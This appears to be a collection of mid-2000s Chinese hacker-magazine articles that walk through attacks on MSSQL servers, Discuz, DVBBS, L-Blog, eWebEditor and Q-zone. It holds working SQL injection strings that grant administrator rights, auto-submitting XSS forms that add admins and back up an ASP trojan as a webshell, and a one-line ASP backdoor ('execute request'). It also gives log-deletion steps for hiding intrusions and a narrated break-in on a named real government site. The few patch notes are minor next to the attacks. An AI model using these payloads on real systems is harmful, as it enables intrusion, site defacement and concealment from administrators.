- 3. `net view /domain:workgroup`，查看 workgroup 工作组中的服务器，如图 7。  


- 4. `netstat -an`，可以看一下有哪些电脑与数据库的 1433、1434 端口相连，如图 8。
- 5. ping 你自己的 IP，可以查一下数据库服务器是否可以连接网络。  


如果数据库服务器可以连接网络，我认为这个就不成问题了，可以上传 NC、MT 或灰鸽子之类的工具，来得到一个 cmdshell。但如果数据库服务器不能连接网络，这个就不好办了。我的一个思路是在数据库服务器上与网站服务器建立 IPC$ 连接，然后再将木马拷到网站服务器上，不过试过 N 次都没有成功，在此也向 X 的小编和黑友们请教一下解决方法。

> **小编友情提示：**  
> 有可能是网站服务器已经使用防火墙屏蔽，或是通过注册表禁止了 IPC 连接，致使你连接不成功；或是对方的目录作了严格的限制，因此你无法成功地将文件传到对方电脑上。另一个原因是对方系统为 2003，这样就算对方没有屏蔽或禁止 IPC 的连接，当你连接上 IPC 后，其权限也为 guest，这样的话你也是无法利用 IPC 成功上传文件的。

# 第五：关于执行命令

一般我们要执行 CMD 命令（在注入点上执行）的时候，主要是由 xp_cmdshell 存储过程（MSSQL 扩展存储过程）。

```sql
exec master..xp_cmdshell 'dir *.exe'
```

安全意识高的管理员都会将此存储过程删除，我们的任务是恢复它。恢复它要用到 sp_addextendedproc 存储过程（此过程用于将新扩展存储过程注册到 MSSQL 中）。

```sql
exec master.dbo.sp_addextendedproc xp_cmdshell, @dllname='xplog70.dll'
```

@dllname 是从内存释放 dll 文件（动态链接库），当然也可以用相应的木马与注入工具进行恢复。

# 第六：扫描与渗透

我在没有办法进行注入攻击时，会请出 X-scan、nmap 等扫描工具，看看主机都开了什么端口，然后再根据扫描报告看有什么可以利用的地方。如这个主机是使用 WinWebMail 的邮箱系统，我可以去安全焦点、绿盟等网站查看相应的漏洞资料，也许会有帮助。如果主机不行，我还可以通过攻击 IP 上绑定其他域名进行旁注入侵，也总有一些是较脆弱的系统。

# 第七：总结、积累

搭建平台自己先试一套：找注入点→猜解后台相关信息→爆路径→上传，这是基本入侵方法。不过，还是要注意平时的积累与灵活运用。其实 SQL 命令也不是很难记，大家只要把 MSSQL 安装盘上的帮助文档拷下来，我们所要的全部关于 MSSQL 的东西上面都有。最后就是对于每期的 X 都要认真阅读，每期你都会从上边找到自己需要的东西。

# Discuz4.1：跨站攻击 WAP


2006 年 5 月 3 日凌晨，某著名站长论坛曝出 Discuz4.1.0 论坛程序出现跨站漏洞、官方正在进行修补的消息，Discuz 官方也随即发布了补丁。但是在此之间，包括电脑报、木蚂蚁等多个大型论坛已经被挂马，可谓是五一长假期间最受关注的网络安全事件。

## 一、背景知识

Crossday Discuz! Board 论坛系统（简称 Discuz! 论坛）是一个采用 PHP 和 MySQL 等构建的高效论坛解决方案。作为商业软件产品，Discuz! 在代码质量、运行效率、负载能力、安全等级、功能可操控性和权限严密性等方面都有广泛用户群和口碑。

WAP 的全称是 Wireless Application Protocol（无线通信应用协议）。它定义了一系列将互联网内容过滤和转换为适用于移动终端标准的规范，使内容可以更容易地在移动终端上显示。WAP 技术的出现，使移动商务成为可能。

XSS 又叫 CSS（Cross Site Script），跨站脚本攻击。它指攻击者在 Web 页面中插入恶意 html/script 代码，当用户浏览该页面时触发执行，从而达到恶意目的。XSS 属于被动式攻击，隐蔽性强。

## 二、漏洞详述

Discuz 论坛允许使用手机访问论坛，wap 目录支持访问和发帖。服务器端处理程序并未对通过 wap 方式提交的标题做充分过滤，导致可构造含有特殊字符的帖子标题并触发跨站。

首先查看 `wap/index.php` 文件，可以看到关键代码如下：

```php
if(in_array($action, array('home','login','stats','myphone', ... ,'forum','thread','post','pm')))
    require_once './include/'.$action.'.inc.php';
else
    wapmsg('undefined_action');
```

从代码可知，会根据动作引入不同处理文件。发帖动作是 `post`，对应 `wap/include/post.inc.php`。关键发帖处理代码如下：

```php
if($post_invalid = checkpost()) {
    wapmsg($post_invalid);
}
if(checkflood()) {
    wapmsg($post_flood_ctrl);
}
...
$db->query("INSERT INTO {$tablepre}threads (... subject ...)");
$tid = $db->insert_id();
$db->query("INSERT INTO {$tablepre}posts (... message ...)");
$pid = $db->insert_id();
```

不难发现，并未对获取的 `$subject` 变量进行有效过滤便直接入库，因此构成了跨站漏洞。

## 三、利用过程

由于需要使用 wap 发帖，使用手机测试不便，因此使用 PC 上的 WAP 模拟器 WinWap 进行漏洞测试。在本地搭建 PHP 环境并安装 Discuz，访问 `http://127.0.0.1:8080/`，注册测试用户 Daniel。

安装 WinWap for Windows 3.2 后访问 `http://127.0.0.1:8080/wap/`，登录后进入发帖页面，在标题处填写跨站字符完成测试（文中对应图 1、图 2、图 3）。

## 四、补丁修补

以下是引用 Discuz 官方的漏洞修补方法：

> 如果您的网上已经被人发这类恶意代码，可以通过下面的方法清除。

此问题只有开启了 wap 功能的论坛才可能会出现；如果您没有启用 wap 功能，则不需要更新数据库，而直接更新补丁即可。

如果您开启了 wap 功能，那么请登录后台进入数据库管理，然后执行以下语句：

```sql
UPDATE cdb_threads
SET subject = REPLACE(subject, '<', '')
WHERE subject LIKE '%<%';

UPDATE cdb_posts
SET subject = REPLACE(subject, '<', '')
WHERE subject LIKE '%<%';
```

```sql
SELECT * FROM cdb_threads WHERE subject LIKE '%<%';
SELECT * FROM cdb_posts WHERE subject LIKE '%<%';
```

当然我们还可以自己来修改 post.inc.php 和 pm.inc.php 这两个文件来实现对特殊字符的修改。由于篇幅原因，就不再详细叙述了，Discuz 官方的补丁以及未打补丁版本的原文件在光盘中均有收录，大家可以自己对比查看。


这里我们只是测试，因此填写一段弹出对话框的 javascript 代码；实际操作中由于目的不同，可以填写其他的 html 或 javascript 代码（基本上就是木马了），但是需要注意两点：第一，标题默认最多字符为 80 字；第二，winwap 对中文支持不好，因此只能输入英文，但是读者可以使用其他的 wap 模拟器来测试。

然后我们再使用 IE 以正常方式打开此论坛版面，就会发现跨站代码已经被执行了，如图 4。


## 五、后记

为了使得用户可以随时随地访问网站，为一个网站开放 WAP 功能、增加用户粘度，已经成为现在许多大网站的一致做法。同时，许多程序发布商也为其相应的程序制作了 WAP 功能，例如本文中出现漏洞的 Discuz! 论坛程序，以及非常流行的动网论坛、动易建站程序。但是在传统 WEB 领域中的安全威胁，在 WAP 访问中一样应该得到防范。有些程序员可能仅仅是没有考虑到 WAP 部分的威胁，但是可能还有部分程序员由于轻视 WAP，认为在手机中进行漏洞测试和利用十分繁琐，忽略了无论 WAP 还是 WEB 都可以使用正常的数据包进行测试；使用 PC 上的 WAP 模拟器一样可以浏览 WAP 网站，并进行更好的漏洞测试。

在此，特别感谢在发现漏洞后及时通知了 Discuz 论坛官方的落伍者论坛上的朋友。发现漏洞并及时通知官方，而不是在没有补丁的情况下随便公布漏洞，才是一个合格的网络安全人员必备的职业道德。

（文中涉及到的 WinWAP 及 Discuz 官方补丁，已经收录于光盘中）

> 编后语：说来，这个漏洞公布的时间真的很不巧，偏偏赶在了许多网管朋友都放假的五一劳动节。5.3 日晚上玄猫在 QQ 上通知了我，不过当时我正在家中使用本本无线上网，本本上没有安装 flashfxp，网站的密码也一时没有想起来，因此是第二天才打上的补丁。其实跨站脚本攻击对于网站本身的影响倒是不大，主要针对的就是浏览帖子用户。这种将攻击目标锁定为无辜用户的行为，就让我们一起鄙视吧！

# 菜鸟亲读 Q-zone 空间验证码的 BUG


图2

在看了 06 年 04 期玄猫写的“验证码也来捣乱——闯 Q-zone 留言的小 Bug”之后，我对验证码也来了兴趣。玄猫在文章中提了很多有用的东西，比如为什么当我们在 Q-zone 空间里发一条含有认证码的留言之后，再发一条留言（我们确实是按系统正常生成的那个认证码输入的，而不是我们添加的那个认证码），就会返回“验证码错误”的信息，但再输入一次系统正常生成的那个认证码就可以成功留言。对于这个问题玄猫在文章中解释了，我简单归纳一下，同时也为下文做准备。玄猫对此的解释是：由于 QQ 页面的显示比较特殊，是通过利用类似 AJAX 的技术来实现页面显示的，如图 1。

首先我对 Q-zone 留言功能的验证码部分进行了测试，测试过程如下：

- 1. 首先右击我们添加的验证码图片 Z3EM（如图 3 的标 1 处），把属性中的地址 `http://verify.qq.com/getimage?0.0697777411319187` 拷贝到一个打开的 IE 窗口中，显示的结果是“FMM2”（验证码是随机生成的）；
- 2. 另外打开一个 IE 窗口，把刚才的 `http://verify.qq.com/getimage?0.0697777411319187` 网址粘贴到地址栏回车，显示的结果是“6GD4”；
- 3. 重复 2 的步骤，显示的结果是“25ZM”；
- 4. 再重复 2 的步骤，显示的结果基本同上，唯一变的是显示的图片结果又变成另外四个字符“K3SL”；
- 5. 任意打开的几个 IE 窗口分别回车（先把鼠标移动到地址栏处，使得选中全部的网址，再回车），显示的结果同 4，都是显示成“K3SL”；
- 6. 对其中的一个 IE 窗口点击“刷新”按钮，图片显示的结果此时由刚才的“K3SL”变成“2AP4”；
- 7. 再对其他的 IE 窗口分别回车，图片显示的结果都由刚才的“K3SL”变成了“2AP4”；
- 8. 右击系统正常生成的验证码图片（如图 3 中的标 2 处），把属性中的地址 `http://verify.qq.com/getimage?0.7523284465702058`（这个地址最后那些数字每次都是不一样的）拷贝到一个打开的 IE 窗口中，显示的结果是“PMMK”，跟 Q-zone 空间看到的是一样。


图1

其页面首先显示出非留言的内容，包括页面的基本构架和“发表评论”的表单，然后通过读取远程的 XML 数据文件并处理，来显示留言（如图 1 中的标 1 部分），因此留言部分其实是在认证码之后显示在客户端的，并且我发现流程是先显示个性签名，再显示日志的全部内容（如图 2 中的标 2 部分）。而这个时候因为页面已经多次调用 getimg.asp 这个文件，从而引起认证码 session 混乱，用户所看到的认证码是验证码部分显示的验证码，和 session 中存放的实际上并不匹配，最终导致出现“验证码错误”的出错提示。并且 Q-zone 在验证码错误后，会刷新显示验证码的图片一次，这时的验证码由于和 session 会话值匹配，再一次留言当然就可以成功发表。

对此解释我比较满意，不过这个解释不够详细，不够深入。出错的时候 session 会话值究竟哪里出错了？出错的时候 session 会话值究竟是什么？文章没有解释。事实上留言部分通过读取远程的 XML 数据文件展示留言内容在客户端的时候，也在客户端生成了一个 session 会话值，只不过这时候的 session 会话值已经不是客户端看到的图片显示的那四个字符，而是另外的一个 session 会话值。至于是什么样的 session 会话值，我将在后面详细解释，并且我们根本不需要编写复杂的程序来监视验证码图片里的字符，我会告诉各位一种很简单的监视方法。


图3

## 小结：

- 1. 只要不另外打开 IE 窗口，无论当前有多少个 IE 窗口，显示的都是同样一个认证码。一旦另外打开一个 IE 窗口，认证码在原有的 IE 窗口就发生变化，也就是认证码遵循随 IE 窗口的打开关闭而变化（这也很正常，session 本身具备这个特性）。
- 2. 点击 IE 窗口的“刷新”按钮，所有 IE 窗口的认证码都会发生变化；
- 3. 在 IE 窗口产生的认证码 session 会话值对 Q-zone 空间的认证系统不适用。
- 4. 直接在 Q-zone 空间里点击我们添加的认证码图片（不过假如我们已经打开了另外一个 IE 窗口的话，那么将调用已经打开的 IE 窗口来显示认证码），会出现图 4 的情况。


图4

我第二次修改本文（第一次编写本文是十天前）的时候，又测试了第四步骤，奇怪的是这回不弹出下载窗口了，不过我记得在这期间，Q-zone 空间升级过一次。该不会腾讯的高级程序员也跟我一样爱看 X 吧。有这个可能，呵呵！由上面的测试可知，我们必须突破这些限制，才会有所收获。

为了测试方便，也为了以子之矛，还其之盾，我决定用腾讯浏览器来突破系统的认证码功能。首先下载腾讯浏览器，安装。接着：

- 1. 在地址栏输入 `http://g3.q-zone.qq.com/q?uin=10000`（任意一个被搞乱的 Q 号），回车；
- 2. 点击我们添加的认证码图片，这回不会出现让我们下载文件的窗口，而是另外腾出一个窗口来显示认证码图片，不过认证码图片里的字符发生变化（对于腾讯浏览器跟 IE 浏览器效果都是一样）。
- 3. 接着输入腾出窗口里显示的认证码字符，如图 5 中的标 1 处，但是这时候会出现一个提示登录信息，如图 5 中的标 2 处（请注意，标 1 处的四个字符“AZVR”跟左边的“5KV5”是不一样）。


图5

- 4. 用这个地址 `http://q-zone.qq.com/web/` 登录自己的 Q-zone。
- 5. 像 2 步骤那样再次点击我们添加的认证码图片，输入腾出窗口里显示的认证码字符，呵呵，这回成功了，如图 6。


图6

- 6. 留言成功后马上用系统正常生成的认证码留言还是会出现认证码错误的提示，原因其实很简单，因为 Q-zone 页面流程默认是回复成功后先刷新“发表留言”的表单部分的认证码图片，接着再刷新留言部分的认证码图片，这个时候 session 会话值当然就还不是客户端看到的认证码值了。如果还想继续留言的话，直接照下面的说明来做：我们直接点击添加的认证码图片，就可以腾出一个新的窗口来显示认证码图片，我们可以看到生成的是“FYWN（或你所看到的认证码）”。根据我在前面讲到的内容可以知道，这个“FYWN”字符串就是最后的那个 session 会话值。你用这个值去留言，系统绝对不会出现“认证码错误”的提示。成功留言后，还想继续留言的话，那你就得继续刷新图 7 标 2 处的地址所在的 IE 窗口（图 7 的标 3 处），并且只能通过回车（先把鼠标移动到地址栏处，使得选中全部的网址，再回车）的形式，不能通过点击 IE 窗口“刷新”按钮的形式，否则还是会出现认证码错误的提示。


> 总结：通过上面的测试我们得知：事实上 Q-zone 留言部分通过读取远程的 XML 数据文件显示留言内容在客户端的时候，也在客户端生成了一个 session 会话值，只不过这时候的 session 会话值不是客户端看到的图片里那四个字符，而是另外的一个 session 会话值，并且这个 session 会话值就是“vzx4”（由上面的 3、4、5 步骤可知），我们获取这个 session 会话值只是通过一点小动作就可以轻松得到。

我还发现这样一个有趣的东西：当我们成功留言后，我们添加的认证码图片跟着发生变化，但是关联认证码图片的网址却没有发生变化。比如之前认证码图片的网址是 `http://verify.qq.com/getimage?0.0697777411319187`，当我们成功留言之后，Q-zone 页面流程会自动刷新留言部分，使得认证码图片发生了变化。

# 一个人的战争

但是验证码图片的网址却还是 `http://verify.qq.com/getimage?0.0697777411319187`，没有发生变化。因此假如我们已经打开了 `http://verify.qq.com/getimage?0.0697777411319187` 这个连接窗口，我们便可以不用像上面第 6 个步骤那样再点击我们添加的验证码图片，通过双击一个新窗口来显示验证码图片这种途径来获取真实的验证码，而只要在已打开的 `http://verify.qq.com/getimage?...` 这个窗口回车，也可以轻松获取真实的验证码。

……小小的验证码，看似简单，却包含了许多复杂的技术。其实网络安全里涉及到的每一种知识，都是有许多研究价值的。相比较来说，个人爱好或黑掉一个网站，也许应该算是其中比较简单的一项了。


zj1244（曾注）

夏天来了，天气热了，安全界也越来越热闹了……5 月 10 日网上公布了 DVBBS7.1 sp1 的 savepost.asp 存在漏洞的消息，经过简单的搜索和对比补丁文件，我们可以确定问题出在 Buy_UserList 变量上。

在第 143 行找到相关代码如下：

```
If Buy_UserList<>"" Then Buy_UserList=Replace(...)
Replace(Buy_UserList,"|||","@@@")
...
ToolsBuyUser="0@@@"&Buy_orders&"0@@@"&Buy_VIPType&"@@@"&Buy_UserList&"|||$PayMoney|||"
```

我们可以发现，Buy_UserList 仅仅是将 `|||` 和 `@@@` 替换为字符串放到了变量 ToolsBuyUser 里，但在这里并没有看到任何有关 ToolsBuyUser 操作的 SQL 语句。不要急，我们通过搜索 “ToolsBuyUser” 很快便找到答案：

```
Public Sub Insert_To_Announce()
  ...
  SQL="Insert into ..."
  ...
  &ToolsBuyUser& ...
  Dvbbs.Execute(sql)
End Sub
```

我们回过头看整个漏洞的形成：首先是 Buy_UserList 里的内容过滤不严就放到了 ToolsBuyUser，然后在 ToolsBuyUser 也没有进行任何过滤就进入了 SQL 语句里……

用户发表新帖子时，我们在“论坛金币帖设置”里选择“论坛交易帖设置”，然后在“可购买用户名单限制”里填入：`$PayMoney|||',3);update [dv_user] set usergroupid=1 where username='zj1244';--`（图1）……后半段才是要注入的语句，意义是把 `zj1244` 的 `usergroupid` 改为 1（前台管理员）。


图1

好了，保存帖子成功。若出现某些 SQL 错误提示，则说明论坛可能是 ACCESS（因为 ACCESS 不支持某些写法）；按要求我们重新登录看看是否已经被提升为前台管理员，看到“管理”选项则说明漏洞存在（图3）。


图2


图3

现在，我们将注入的语句换为：`insert into [dv_admin]([username],[password],[flag],[adduser]) values('zj1244','cd2e8817d3e73b09','1,2,3,4,...,36','zj1244')`，就在后台添加了一个拥有所有权限的管理员帐号（登录用户名 `zj1244`，其中密码为 MD5 散列）。

可能会有朋友要问：如果每注入一个语句就要发一个帖，那不是很麻烦吗？如果是手动注入确实麻烦，本人也是个懒人，所以便做了个工具出来方便大家（图4）。


图4

先在“地址”里填写论坛任意版面的地址，如 `http://xxx.com/index.asp?boardid=26`（注意，这里如果仅仅写为 `http://xxx.com/bbs/` 的话，一会儿点击“发送”按钮时程序是会出错的），单击“浏览及获得cookie”，然后单击“获取cookie”按钮，工具就会自动连接到论坛了。这时候，不管有没有“cookie”，我们都要自己在工具里的登录页面再登录一次，否则工具抓到的 cookies 也会出错。然后在“当前用户”里填入当前登录论坛的用户名，比如这里用 `zj1244` 登录的话，就填入 `zj1244`。接下来，选择相应的操作，比如将“指定用户提升为前台管理员”，填入 `zj1244`，单击“发送”按钮。提示可能成功了（这个时候大家不要心急着用 IE 验证是否成功，否则等下我们进行别的操作的时候只需要在工具里再次登录来获取新的 cookies），如图5。


图5

接下来我们把用户提升为后台管理员，操作选项选“提升指定用户为后台管理员”，填入指定用户 `zj1244` 及其密码，单击发送。接下来我们可以在 IE 里重新登录来验证是否成功了。试着登录后台，和我们预想的一样——成功登录（图6）。最后就是如何获得 webshell 了，获得 webshell 的方法有是备份和恢复数据库，我们选择后者，因为比较简单 ^_^。先把 asp 木马保存为 jpg 格式，然后利用论坛的上传功能上传到论坛里（PS：没有开上传的就帮他开），记住上传后的相对路径，这里的是 `UploadFile/2006-5/200651411241928532.jpg`。


（图7），然后在本地新建一个 htm 文件，内容如下：

```html
<form name="upload" action="http://www.xxx.com/admin/data.asp?action=RestoreData&act=Restore" method="post">
  <p>已上传文件的位置：<input name="Dbpath" type="text" size="80" value=""></p>
  <p>要复制到的位置：<input name="backpath" type="text" size="80" value=""></p>
  <p><input type="submit" value="提交"></p>
</form>
```

“已上传文件的位置”填写我们的 asp 木马所在的位置：`UploadFile/2006-5/200651411241928532.jpg`；“要复制到的位置”填写你想要 webshell 的相对路径，比如 `UploadFile/2006-5/muma.asp`，按提交就可以得到 webshell 了（图8）。


> 职业欠钱：关于这个拿 webshell 的方法，可能有些人会有意见。因为上传 JPG 文件的时候，新的 DV BBS 会检查文件是否为一个图片；而且后面恢复数据库的时候，还会检查被恢复的文件是否一个 MDB 数据库，所以我建议大家使用 access 新建一个空的数据库，比如 1.mdb，然后找一个小点的 ASP 木马（这里以 2.asp 为例），在 CMD 里使用 `copy /y /b 1.mdb+2.asp 3.mdb` 的方式将 1.mdb 和 2.asp 合并成一个 3.mdb，在后台添加 mdb 文件类型，上传并备份一样可以拿到 shell。

到此，我们的入侵之旅就结束了，不过大家要养成擦 pp 的好习惯，这样我们的 webshell 才可以长久存活。首先我们要先把自己的前台权限降回来……删除前后的截图如图9、图10。

```sql
-- 还原指定用户等级
update dv_user set UserGroupID=9 where UserName='zj1244';
-- 删除发帖/管理日志
delete from dv_admin where AddName='zj1244';
delete from dv_log where username='zj1244';
delete from dv_topic where postusername='zj1244';
delete from dv_jobs where username='zj1244';
```


为了照顾 SQL 语句较学好的朋友，我把一些实现其它功能的 SQL 语句也写出来方便大家进行手工注入：

如果不想别人也通过这个漏洞进入论坛，我们就帮他补上漏洞吧。在 savepost.asp 中第 722 行的：

```asp
SQL="insert into ..."
'（长SQL拼接语句，含 @username, @topic, @content, @DateTimeStr 等变量）
```

中找到 ToolsBuyUser，改为 `dvbbs.checkstr(ToolsBuyUser)` 就可以了，或者去官方下载相应补丁用新的 savepost.asp 替换现在的文件。

> （文章中涉及到的漏洞利用工具 dv交易贴.exe，光盘中已收录）

对于“洞”网这种坚持到底的精神，我们是佩服的……不管怎么说，方便小菜的，就是最好的！

# 阿里巴巴与黑客交锋

东北的天气就像浩瀚的网络一样让人琢磨不透……这是一套商业代码，免费版有功能上的限制。既然是商业代码，安全系数应该是很高的。可是经过我的检查，还是找到了一点瑕疵。

在 SQL 注入中苦苦挣扎了 N 久的我们，也不知道什么时候才能得到彻底的解放。千万不要小看跨站这个东西……就看你怎么利用了。

## 一、利用跨站添加管理员

这套管理系统在防注入方面已经做得很好了，而且在功能上也相当的强大。但是对于跨站攻击的防范却略显吃力，我们在“客户反馈”中做一个简单的测试吧（图1）！


提示提交成功了，看来程序员的确没有过滤。那结果是不是我们想象中的那样会弹出一个“TEST”的警告窗口呢？我们去后台看一下，点击“反馈查看”，如图2。


图2

结果和我们想象中的一样，我们现在可以来构造跨站代码了。我们的目的是加一个和管理员具有相同权限的用户。那管理员是如何添加的呢？代码大概如下：

```html
<form name="form" method="post" action=".../administrator/administrator.asp?action=save">
  <input name="user" type="text" value="管理员名">
  <input name="pass" type="password" value="管理员密码">
</form>
```

我们如何利用呢？想必大家都知道，扩展名为 JPG 的 HTML 文件是可以被正常解释的。代码如下：

```html
<html>
<form name="form" method="post" action="../../admin/administrator/administrator.asp?action=save">
  <input name="user" type="text" value="BIN">
  <input name="pass" type="password" value="63969594">
</form>
<script>document.form.submit()</script>
</html>
```

最重要的就是 action 的路径和最后一段自动提交的脚本。把代码扩展名保存为 JPG 后上传，得到路径后再提交跨站代码。在“客户反馈”里可输入：`管理员<iframe src="../UserDocument/test/Picture/2006417_221902.jpg" width=0 height=0></iframe>`。


图3

个字符，所以我们要尽量减少提交的内容。如果你不想让管理员看见你提交的内容是空白的，就在框架前面加几个汉字，只要不超出字数限制就 OK 了，如图3。剩下的就是等待管理员查看“留言反馈”，就会神不知鬼不觉地在后台为你加一个管理员了，如图4。


图4

如果你感觉加一个管理员不够爽，那我们来直接利用数据库备份得到一个 SHELL 如何呢？

### 二、利用跨站得到SHELL

利用数据库备份得到 SHELL 我想大家都会了，如果利用跨站代码让管理员自己帮我们备份一个 SHELL，那会使我们的入侵变得更加快捷。我们先来看一下数据库备份的表单。代码大概如下：

```html
<form name="form" method="POST" action="admin/system/admin.backdb.asp?action=back">
  <input type="text" name="currf" value="数据库路径">
  <input type="text" name="backfl" value="备份路径">
  <input type="text" name="backfy" value="备份的文件名">
</form>
```

有了刚才添加管理员的基础，我们现在利用起来并不难。先把一个扩展名为 JPG 的 ASP 木马传上去，然后把跨站代码构造如下：

```html
<html>
<form name="form" method="POST" action="../../admin/system/admin.backdb.asp?action=back">
  <input type="text" name="currf" value="../../UserDocument/test/Picture/2006416_230218.jpg">
  <input type="text" name="backfl" value="20nt\">
  <input type="text" name="backfy" value="bin.asp">
</form>
<script>document.form.submit()</script>
</html>
```

代码写好后要保证路径正确，再次利用木马上传并提交反馈。管理员浏览反馈内容后会自动为我们备份一个 SHELL。但会出现“数据库备份成功”的提示框，若点击“确定”会反复备份形成死循环，如图7。

### 三、利用cookies打造完美的代码

说得更加通俗些，就是利用 cookies 做一个只允许访问一次的页面。当管理员访问过带有跨站代码的页面时我们做一次记录，再次访问的时候 cookies 已经存在了。这个时候不让我们的跨站代码执行就可以了。其实你可以做一个简单的计数器，同样的道理。思路搞清楚了，我们来看一下代码吧，如下（完整代码详见光盘）：

```html
<html>
<form name="form" method="post" action="../../../admin/administrator/administrator.asp?action=save">
<input name="user" value="BIN">
<input name="pass" value="63969594">
</form>

<script>
function cnt_net(){
  if(get_cookie('BIN')==''){
    BIN();
    document.cookie='BIN=63969594';
  }
}
cnt_net();
</script>
</html>
```

提交后我们去看一下效果吧！一箭双雕！不但加了管理员，而且还得到了 SHELL，令人讨厌的提示框也消失了，如图9。

唯一没有解决的问题是至少会弹出一次“数据库备份成功”。这是程序本身的缘故，在 cookies 被管理员清除之前，那个讨厌的提示窗口再也不会出现了！利用跨站代码其实还可以为我们在后台添加一个“ASP”的文件上传类型，但是表单相对来说比较大一些，这里不再演示了。

在添加管理员帐号的时候也会有同样的情况，当页面被刷新，我们的跨站代码将会被重新提交，系统会提示“此用户已存在，请重新输入”，这样又会造成死循环，如图8。


这样即可在 `http://localhost/admin/Databackup/2006.asp` 得到一个海阳木马，如图4。


- 最后还有两点要注意的：
- 第一，有些程序在后台没有填写当前数据库地址的地方，使得我们不能自定义要备份的文件；
- 第二，有些程序在上传时检测文件头（如“GIF89a”），可通过修改木马文件头绕过检测。

# L-Blog 漏洞下的管理员权限获取尝试

旭方（高春雷）

某日正与好友闲聊时，他说他刚看了一个非常好玩的 Flash。由于我也是个“闪迷”，就让他把 Flash 的地址发过来欣赏。看完后感觉很不错，正在打算撤的时候无意中注意到了网页的 Logo 信息：福州广电？！难道是福州广播电视局吗？那就来检测一下它的安全性如何吧！

首先来到主页，不愧是广播电视局的网站，内容好丰富呀，如图1。嗯？有个博客耶！这玩意如今挺流行的，进去注册一个玩玩！刚一进入就弹出了那熟悉的“帮助”，可恶，居然被人挂了马！由于本人平时最痛恨的就是挂马的人，于是打算一定要把挂的马给删除掉！06 年天字号除马行动开始了……


由于 Blog 程序被人挂了马，那问题有可能就是出在了 Blog 程序自身的漏洞上。嗯？这个 Blog 的界面怎么这么熟悉！一看页面底部的版权信息，是“Powered by L-Blog V1.08 (SE) Final M AcBLOG Ver 1.20 [D.P.F]”，L-Blog？！

存在提升权限的漏洞，那就来测试一下吧！在我的网络硬盘里疯狂搜寻后找到了 L-Blog 提升权限漏洞的利用工具，程序界面如图2所示。这个漏洞出现后我一直没有找到练手的机会，今天总算可以派上用场了！首先我们在 Blog 上新注册一个用户，我注册的 ID 为旭方，然后进入“修改资料”处，在“编辑个人资料”的地方填上我们的旧密码，如图3。

其他项不用填，然后使用 Winsock Expert 抓包，之后将抓到的 Cookie 信息填写到程序的“Cookie”处，旧密码就是你的登录密码，一切就绪后点“提交”，片刻后会提示“数据提交完毕，请重新登录！”，如图4。


我们重新登录来看一下，如图5，Yeah！我们已经成功被提升到了管理员权限了！然后我们点“系统管理”，接着输入管理密码就进入到了 L-Blog 的后台，如图6。由 Blog 自身附带的服务器信息显示功能我们可以看到，服务器使用的 IIS 为 6.0 版本，Windows 2003 的主机，而且支持 FSO 和 ADODB.Stream 组件。


图6

ADODB.Stream 组件大家应该都不陌生。如果你经常使用一句话木马客户端提交大马的时候，你可以注意一下上面的信息：程序都需要调用 ADODB.Stream 组件来写入我们要提交的大马代码到服务器中的一个文件中。倘若服务器把这个组件禁用的话，那么我们的木马也就无法顺利上传到服务器中了。说了这么多，该说说我们如何在这个后台得到 webshell 了。

首先我们点后台的“数据管理”链接，进入如图7所示页面。看到标记的地方了吗？数据库格式是 asa，这个文件格式默认可以和 asp 一样由 asp.dll 解析。我们可以向里面写入一句话木马，然后它的数据库就成了我们一句话后门的服务器了。


图7

我们在“SQL 查询执行”中先输入 `drop table aNotdownload`（删除某表），再输入：

`insert into blog_Info (blog_name) values ('<% execute request("xufang0219") %>')`

这样就把一句话木马插入到数据库字段中。执行完毕后输入数据库地址，如图8，我们的一句话木马已经成功插入到数据库中。


图8


图9


图10

我们采用一句话木马客户端连接：在“提交地址”填写数据库地址，把小马代码填入文本区域并提交。网速很快的话马上就能得到一个小马，如图10。接着再传大马上去，如图11。之后应及时清理挂马痕迹并删除注入内容。


图11

我们来打扫入侵痕迹：先把数据库中插入的一句话木马删除，方法是执行 SQL：

`delete * from blog_Info where blog_name='<% execute request("xufang0219") %>'`

之后使用数据库操作工具清理操作日志，避免留下明显痕迹。

> （文中涉及到的工具：L-Blog 提权漏洞利用程序、旁注网站小助手、已改杀 ASP 一句话后门提交 HTM，已收录于光盘中）

网站来说，谁会想到一个广播电视局的网站会被人挂马呢？！

# EWebEditor 的新玩法

lis0

上次在《黑客 X 档案》上写了通过 eWebEditor 来入侵花香蓝路（hxcms）的文章后，不久 hxcms 就出了 v7.0。但是非常令人遗憾的是，对于 eWebEditor 的关注仅仅是把默认数据库改为了 `#hx66.net.asp`！好多使用 hxcms 的用户，其 eWebEditor 后台密码都是默认的密码，但就是数据库给改了名字（可能是看了 X 档案），根本不再是以前没人注意的 `mdb.asp` 了。就算我们可以成功地插入小马，但不知道数据库地址也是毫无意义的。

五一放假实在是无聊，就把 hxcms v7.0 中的 eWebEditor 代码看了看，却不小心发现了 eWebEditor 的一个漏洞。漏洞存在于 `Admin_UploadFile.asp` 和 `Admin_Style.asp` 中。我们来看 `Admin_Style.asp` 中第 270 行代码，关于“上传文件及系统文件路径相关设置”的一段中上传路径变量的定义 `S_UploadDir`，看看对这个变量有什么限制？变量转来转去就有这么一句：

```asp
if sStyleUploadDir="" or Get_TrueLen(sStyleUploadDir)>50 then
    Go_Error "上传路径不能为空，且不大于50个字符长度！"
    End If
if IsSafeStr(sStyleUploadDir)=False then
    Go_Error "上传路径请勿包含特殊字符！"
End If
```

eWebEditor 开始定义 `S_UploadDir` 变量的时候没有限制其范围。因此对于上传路径我们可以设置为“/”，即网站的根目录。用过 eWebEditor 的朋友都知道，它有一个上传文件管理的功能，可以浏览和删除通过 eWebEditor 上传的文件，如图1。


`Admin_UploadFile.asp` 中关于 `S_UploadDir` 的描述没有任何过滤，详细的分析我就不啰嗦了。还是来看一下具体的利用方法吧。我们先使用默认的密码，或是通过下载 eWebEditor 默认数据库的方式，搞到后台的用户账号及密码，登录到 eWebEditor 的后台拷贝一份样式。将“上传路径：”设置为“/”，如图2。提交后样式修改成功，然后到“后台管理”的“上传文件管理”选项，在“选择样式目录”项中选择“样式：s_blue1——目录：/”，如图3、图4。这样，我们就可以对网站中的任意文件进行删除了。


如果我们将“上传路径：”改为了“../../”呢？我们甚至可以查看根目录所在盘的内容，如图5。


显示了 netbox 所在的文件夹内容。这就是一个小小的变量带来的严重危害。对 hxcms 来说，如果 eWebEditor 的数据库不是 asp 格式的话很难得到 webshell，除非还有其他可以下载的数据库，因为 hxcms 的数据库插入了“<%”，如图6。


